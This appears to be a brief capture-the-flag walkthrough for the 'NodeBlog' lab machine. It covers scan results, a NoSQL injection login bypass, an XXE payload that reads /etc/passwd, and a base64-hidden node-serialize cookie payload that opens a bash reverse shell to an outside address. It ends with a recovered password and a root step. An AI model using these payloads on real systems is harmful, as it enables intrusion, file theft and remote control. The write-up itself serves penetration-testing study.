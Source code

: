 # NodeBlog

---

## Enumeration

- nmap:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Foothold

- Login is vulnerable to NoSQL Injection, request body:

```json
{
	"user":"admin",
	"password": {
		"$ne": "anything"
	}
}
```

- Upload XML is vulnerable to XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<post>
<title>
	&file;
</title>
<description>
	Test
</description>
<markdown>
	Test
</markdown>
</post>
```

- Got `/opt/blog/server.js`
- Deserialization Attack: on cookie `auth=`:

```json
{"game":"_$$ND_FUNC$$_function(){require('child_process').exec('echo \"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zLzkwMDAgMD4mMQ==\" | base64 -d | bash', function(error, stdout, stderr){console.log(stdout)});}()"}
```



---

## PrivEsc

- mongo, use blog, db.users.find()
- password is: `IppsecSaysPleaseSubscribe`
- just `sudo su` as root.

---

